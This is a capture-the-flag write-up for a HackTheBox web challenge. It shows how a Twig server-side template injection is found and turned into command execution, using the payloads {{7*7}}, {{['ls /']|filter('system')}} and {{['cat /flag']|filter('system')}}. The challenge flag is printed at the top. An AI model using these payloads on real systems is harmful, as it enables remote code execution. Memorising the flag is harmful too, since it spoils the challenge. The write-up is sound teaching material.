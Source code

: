 # baby bonechewercon (Web)

![date](https://img.shields.io/badge/date-05%2F03%2F2021-brightgreen)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![blockchain category](https://img.shields.io/badge/difficulty-medium-yellow)
![hard dificulty](https://img.shields.io/badge/category-web-blue)

## Flag
``
HTB{b3nt_tw1g_t0_my_will!}
``

## Solution

Starting with reading the description of the challenge it notified us about SSTI feng shui, so it's probably a server side template injection vulnerability

![challinfo](1.png "Challenge Info")

Looking at the files we see PHP is used with Twig, which is a is a template engine for PHP. The web page provide us a form to register a name. Registering a name we get a greeting response with the value we passed to it.

![web1](2.png "web1")

So we start exploiting this vulnerability with a very simple payload, {{7*7}}, to check if it's going to evaluate so we have the following:
```
http://docker.hackthebox.eu:31119/?name={{7*7}}
```
And we get back 49! So it's vulnerable to SSTI.
![web2](3.png "web2")

Now we can get remote code execution and list the root folder with the following payload:

```
{{['ls /']|filter('system')}}
```

![web5](5.png "web5")

We see the flag file there so we just need to read it:
```
{{['cat /flag']|filter('system')}}
```
![web6](6.png "web6")
